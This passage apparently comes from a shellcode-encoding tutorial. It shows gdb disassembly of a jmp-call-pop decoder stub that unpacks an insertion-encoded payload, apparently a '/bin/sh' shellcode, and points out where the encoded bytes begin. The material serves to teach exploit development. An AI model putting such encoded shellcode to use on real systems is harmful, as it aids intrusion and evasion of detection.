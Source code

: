 ```
(gdb) break *&code
Breakpoint 1 at 0x804a040
```

```
(gdb) set disassembly-flavor intel
(gdb) run
```

```
(gdb) disassemble 
Dump of assembler code for function code:
=> 0x0804a040 <+0>:	jmp    0x804a05f <code+31>
   0x0804a042 <+2>:	pop    esi
   0x0804a043 <+3>:	lea    edi,[esi+0x1]
   0x0804a046 <+6>:	xor    eax,eax
   0x0804a048 <+8>:	mov    al,0x1
   0x0804a04a <+10>:	xor    ebx,ebx
   0x0804a04c <+12>:	mov    bl,BYTE PTR [esi+eax*1]
   0x0804a04f <+15>:	xor    bl,0xaa
   0x0804a052 <+18>:	jne    0x804a064 <code+36>
   0x0804a054 <+20>:	mov    bl,BYTE PTR [esi+eax*1+0x1]
   0x0804a058 <+24>:	mov    BYTE PTR [edi],bl
   0x0804a05a <+26>:	inc    edi
   0x0804a05b <+27>:	add    al,0x2
   0x0804a05d <+29>:	jmp    0x804a04c <code+12>
   0x0804a05f <+31>:	call   0x804a042 <code+2>
   0x0804a064 <+36>:	xor    DWORD PTR [edx-0x55af5540],ebp
   0x0804a06a <+42>:	push   0x2faa2faa
   0x0804a06f <+47>:	stos   BYTE PTR es:[edi],al
   0x0804a070 <+48>:	jae    0x804a01c
   0x0804a072 <+50>:	push   0x2faa68aa
   0x0804a077 <+55>:	stos   BYTE PTR es:[edi],al
   0x0804a078 <+56>:	bound  ebp,QWORD PTR [edx-0x55915597]
   0x0804a07e <+62>:	mov    DWORD PTR [edx-0x55af551d],ebp
   0x0804a084 <+68>:	mov    DWORD PTR [edx-0x55ac551e],ebp
   0x0804a08a <+74>:	mov    DWORD PTR [edx-0x554f551f],ebp
   0x0804a090 <+80>:	or     ebp,DWORD PTR [edx-0x557f5533]
   0x0804a096 <+86>:	add    BYTE PTR [eax],al
End of assembler dump.
```

Ok, here we are and our encoded shellcode if you quickly recall
starts basically from this location:

```
   0x0804a064 <+36>:	xor    DWORD PTR [edx-0x55af5540],ebp
   0x0804a06a <+42>:	push   0x2faa2faa
   0x0804a06f <+47>:	stos   BYTE PTR es:[edi],al
   0x0804a070 <+48>:	jae    0x804a01c
   0x0804a072 <+50>:	push   0x2faa68aa
   0x0804a077 <+55>:	stos   BYTE PTR es:[edi],al
   0x0804a078 <+56>:	bound  ebp,QWORD PTR [edx-0x55915597]
   0x0804a07e <+62>:	mov    DWORD PTR [edx-0x55af551d],ebp
   0x0804a084 <+68>:	mov    DWORD PTR [edx-0x55ac551e],ebp
   0x0804a08a <+74>:	mov    DWORD PTR [edx-0x554f551f],ebp
   0x0804a090 <+80>:	or     ebp,DWORD PTR [edx-0x557f5533]
   0x0804a096 <+86>:	add    BYTE PTR [eax],al
```
